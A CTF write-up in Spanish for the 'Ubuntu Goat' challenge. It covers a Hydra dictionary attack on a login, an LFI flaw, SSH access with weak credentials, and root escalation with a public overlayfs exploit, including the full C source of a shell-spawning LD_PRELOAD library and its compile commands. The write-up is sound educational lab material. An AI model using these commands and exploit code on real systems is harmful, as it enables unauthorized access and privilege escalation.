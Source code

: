 ### Ubuntu Goat - Stage 1 (120 Points) + Stage 2 (160 Points)
#### Stage 1: Find an ubuntu box named goat and gain a goat shell on it, then look for the flag. You may not need root privileges for that :D.
#### Stage 2: Gather root privileges on the ubuntu goat box.

##### Category: Hacking + Exploiting
##### Solves: 1




Esta máquina (192.168.0.21) consistía en un sistema Ubuntu, el cual entre los servicios ofrecidos contenía un servidor web en el puerto 80.

Al buscar potenciales archivos y directorios comunes que pudieran existir en el servidor web con la herramienta “dirb” se identificó el directorio “administration”, el cual solicitaba un usuario y contraseña a través de un panel de login Basic Authentication.

Tras probar varias contraseñas por defecto (admin/admin, test/test, admin/passsword, etc.) sin éxito, se decidió automatizar un ataque de diccionario para intentar conseguir unas credenciales válidas.

Para ello se utilizó la herramienta “THC Hydra” y el diccionario “rockyou.txt”:
	hydra -l admin -P /diccionarios/rockyou.txt 192.168.0.21 http-get "/administration"

Tras un rato, se consiguieron unas credenciales válidas (“admin/pirata”) y se pudo acceder al contenido del directorio web.

Una vez autenticados, se identificó una vulnerabilidad LFI (Local File Inclusion) en uno de los recursos web que permitían mostrar el contenido de distintos archivos locales del sistema:

![goat_lfi1](https://user-images.githubusercontent.com/38633962/42778689-3b4a7936-893e-11e8-8e6a-2608b381e594.png)

Tras buscar diversos archivos que nos permitieran acceso al flag (o a información sensible) sin éxito, se decidió intentar acceder al sistema a través de SSH con algunos de los usuarios identificados en el sistema:

![goat_lfi2](https://user-images.githubusercontent.com/38633962/42778801-93824034-893e-11e8-97fe-9c275412cc7d.png)

Tras varios intentos, se consiguió acceso al sistema con el usuario “flag” (con contraseña “flag”), el cual no poseía permisos de administración ni estaba incluido en el sudoers.

Una vez dentro del sistema y tras analizar los archivos existentes, se identificó el archivo “flag.g” dentro de la carpeta personal del usuario “goat” (“/home/goat/”), el cual parecía ser el flag de la primera parte del reto cifrado con GPG.

![goat_flag1](https://user-images.githubusercontent.com/38633962/42778825-a91ed9d4-893e-11e8-8365-6a1964fbeabe.png)

Puesto que la segunda parte del reto consistía en obtener privilegios de root en el sistema y tras probar de descifrar el flag con algunas posibles contraseñas sin éxito, se decidió intentar escalar privilegios y ver si así conseguíamos alguna pista más para descifrar este flag (como por ejemplo accediendo al history del usuario goat).

Después de haber buscado configuraciones o permisos inseguros que pudieran permitir una escalada de privilegios y analizar el sistema operativo (Ubuntu 12.04 con Kernel 3.13) se decidió utilizar algún exploit público que permitiese escalar privilegios, en concreto “https://www.exploit-db.com/exploits/37292/”.

Debido a que el sistema no disponía de gcc, se tuvo que compilar en local el código del exploit y la librería dinámica requerida (realizando la compilación para sistemas de 32 bits). Para ello se modificó la parte del exploit que generaba la librería dinámica automáticamente para generarla nosotros manualmente:

  · Compilación del exploit: 
     
    gcc -m32 37292.c -o exp2
  
  · Generación de la librería dinámica: 
  
    gcc -fPIC -shared -o ofs-lib.so ofs-lib.c -ldl -w -m32
  
  · Source code de ofs-lib.c:
  
```  
#include <unistd.h>
uid_t(*_real_getuid) (void);
char path[128];
uid_t
getuid(void){
	_real_getuid = (uid_t(*)(void)) dlsym((void *) -1, "getuid");
	readlink("/proc/self/exe", (char *) &path, 128);
	if(geteuid() == 0 && !strcmp(path, "/bin/su")) {
		unlink("/etc/ld.so.preload");unlink("/tmp/ofs-lib.so");
		setresuid(0, 0, 0);
		setresgid(0, 0, 0);
		execle("/bin/sh", "sh", "-i", NULL, NULL);
	}
	return _real_getuid();
}
```

Una vez compilados el exploit y la librería dinámica, se copiaron en un servidor web, se descargaron en el servidor remoto a través de wget (utilizando la conexión ssh) y tras su ejecución se obtuvieron permisos de root :)

Siendo ya root en el sistema, fue trivial obtener el flag de la segunda parte del reto, ya que se encontraba en la carpeta personal del mismo:

![goat_root1](https://user-images.githubusercontent.com/38633962/42779069-87857dd6-893f-11e8-8471-9199430ed5ab.png)

Para identificar el flag de la primera parte, se analizó el history del usuario root y se identificaron las siguientes líneas, en las cuales se podía ver como se generaba el flag cifrado:

![goat_history1](https://user-images.githubusercontent.com/38633962/42779090-a5bcd8e4-893f-11e8-9fd1-7e05f91b79e8.png)

Así que para conocer el flag que validaba el reto sin necesidad de conocer la clave de cifrado era suficiente con generar el md5 de la palabra “patata”:

<code>$echo -n "patata" | md5sum</code>  → 35bc8cec895861697a0243c1304c7789

**Nota:** Puesto que tenía curiosidad por la clave utilizada para cifrar el flag de la primera parte, una vez acabado el CTF realicé alguna automatización y descubrí que la clave era “overdrive”, por lo que tampoco era tan difícil obtenerla sin escalar privilegios ^^

![goat_flag2](https://user-images.githubusercontent.com/38633962/42779143-cccbe5d8-893f-11e8-9641-c7b547dbb946.png)
